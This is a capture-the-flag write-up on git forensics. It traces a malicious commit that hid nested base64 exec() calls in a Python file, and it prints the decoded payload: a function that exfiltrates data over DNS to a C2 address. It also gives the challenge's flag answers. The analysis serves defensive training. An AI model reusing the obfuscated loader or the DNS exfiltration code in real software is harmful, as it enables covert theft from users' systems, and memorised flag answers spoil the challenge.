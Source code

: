 # D8 — Shadow Commit ()

**Platform:** Code Repository Forensics / Git  
**Category:** Supply-chain / Malware Analysis  
**Difficulty:** Medium–Hard

---

## 🎯 Goal
Find the commit hash where a malicious change was introduced and identify the malicious IPv4 address used by the exfiltration code.

---

## 🧠 Approach
Search the git history for suspicious keywords (`base64`, `exec`, `b64decode`, `dns.query`, etc.). Inspect the identified file (`backupy/fileman.py`) which contained nested base64-encoded `exec()` calls; decode each layer sequentially to reveal the final payload and C2 IP.

---

## 🛠️ Steps / Evidence
1. `git grep base64` identified `backupy/fileman.py`.  
2. The file contained multiple `exec(ute("<base64>"))` lines. Decoded them in order:
   - `ZnJvbSBiYXNlNjQgaW1wb3J0IHVybHNhZmVfYjY0ZW5jb2Rl` → `from base64 import urlsafe_b64encode`
   - `ZnJvbSBpbyBpbXBvcnQgQnl0ZXNJTw==` → `from io import BytesIO`
   - `ZnJvbSBkbnMubWVzc2FnZSBpbXBvcnQgbWFrZV9xdWVyeQ==` → `from dns.message import make_query`
   - `ZnJvbSBkbnMucXVlcnkgaW1wb3J0IHVkcA==` → `from dns.query import udp`
   - `ZGVmIHEoc2QsIHQpOgogICAgdWRwKG1ha2VfcXVlcnkoZiJ7c2R9IiwgdCksICIyNTEuOTEuMTMuMzciLCBwb3J0PTBvNjUp` → 
     ```py
     def q(sd, t):
         udp(make_query(f"{sd}", t), "251.91.13.37", port=0o65)
     ```
     This shows the payload sends DNS queries to `251.91.13.37` (octal `0o65` = decimal 53).
3. From the git log/context around this change, the malicious commit was identified:

4. 9808069448236ee49197892308c99fd49ce7ae44

5. 
---

## ✅ Solution (Flags / Findings)
- **Malicious Commit Hash:** `9808069448236ee49197892308c99fd49ce7ae44`  
- **Malicious IP (C2):** `251.91.13.37`

---

## 📌 Reflection
This challenge demonstrated how obfuscation (nested base64 + exec) hides malicious functionality. Sequential decoding revealed DNS-based exfiltration. In a real incident, preserve the repository state, document your decoding steps, and escalate to supply-chain / legal teams as required.

